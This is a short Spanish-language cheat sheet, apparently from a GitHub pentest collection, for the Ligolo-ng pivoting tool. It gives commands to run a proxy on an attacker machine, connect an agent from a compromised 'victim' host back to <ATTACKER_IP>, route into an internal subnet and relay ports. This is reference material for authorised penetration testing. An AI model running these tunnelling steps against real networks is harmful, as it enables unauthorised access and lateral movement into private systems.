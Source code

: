 # Ligolo-ng Cheat Sheet

#### Crear interfaz en equipo atacante
```
sudo ip tuntap add user <YOUR_USERNAME> mode tun ligolo
sudo ip link set ligolo up
```

#### Ejecutar ligolo en equipo atacante y ponerse en escucha en el puerto 443
```
ligolo-proxy -selfcert -laddr 0.0.0.0:443
```

#### Conectarse a máquina victima
```
ligolo-agent -connect <ATTACKER_IP>:443 -ignore-cert
```

#### Agregar la red destino a la que queremos pivotar para alcanzar otros hotst
```
sudo ip route add 192.168.1.0/24 dev ligolo
```

#### Visualizar y seleccionar las sesiones que estan establecidas
```
>> session
```

#### Iniciar una sesión y en la pregunta responder con 'yes'
```
>> start
```

#### Crear un socket TCP de escucha el agente en puerto 1234 para redirigir las conexiones al puerto 4321 del servidor proxy
```
>> listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
```


---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)